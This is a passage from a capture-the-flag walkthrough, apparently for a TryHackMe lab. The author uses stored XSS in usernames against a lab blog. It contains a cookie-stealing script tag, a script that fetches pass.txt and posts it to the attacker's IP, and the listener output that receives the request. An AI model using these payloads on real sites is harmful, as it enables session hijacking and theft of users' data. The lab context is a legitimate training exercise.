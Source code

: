 To steal the cookies, I registered another user with an even better name:

```html
<script>var i=new Image(); i.src="http://10.10.59.20:9999/?cookie="+btoa(document.cookie);</script>
```

I then started a webserver.

```bash
python -m http.server 9999
```

After entering any comment I got the following output:

```bash
root@ip-10-10-59-20:~# python -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.59.20 - - [09/Jan/2024 15:11:46] "GET /?cookie= HTTP/1.1" 200 -
10.10.129.57 - - [09/Jan/2024 15:12:18] "GET /?cookie= HTTP/1.1" 200 -
```

Well, that didn't work as expected. I see that the XSS worked but the cookie isn't transferred. Maybe stealing the cookie isn't the way to go.

### Step 1d: Accessing the file

All I want is access to the `pass.txt` file. Thus, I wrote a very short script that forces the admins browser to send it to me.

```js
//getter.js
var url = "dir/pass.txt"
var xhr = new XMLHttpRequest(); 
xhr.open("GET", url, false); 
xhr.send();

var content = xhr.responseText;
var xhr_to_me = new XMLHttpRequest(); 
xhr_to_me.open("POST", 'http://10.10.59.20:9999/', false);
xhr_to_me.send(content);
```

I then registered a new user named `<script src="http://10.10.59.20:8888/getter.js"></script>` so the victim downloads the getter.js script. In theory one could also put the whole script into the username. However, my approach has the benefit that a) the username is much shorter and less complicated and b) I could easily change it and don't need to register another user.

Now I made a blog post and set up the python server:

```bash
root@ip-10-10-59-20:~# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.59.20 - - [09/Jan/2024 16:08:05] "GET /getter.js HTTP/1.1" 200 -
10.10.129.57 - - [09/Jan/2024 16:08:19] "GET /getter.js HTTP/1.1" 200 -
```

I also started netcat to receive the post request:

```bash
root@ip-10-10-59-20:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.129.57 42802 received!
POST / HTTP/1.1
Host: 10.10.59.20:9999
Connection: keep-alive
Content-Length: 32
Origin: http://127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/71.0.3542.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
```

[2]: https://tryhackme.com/room/whyhackme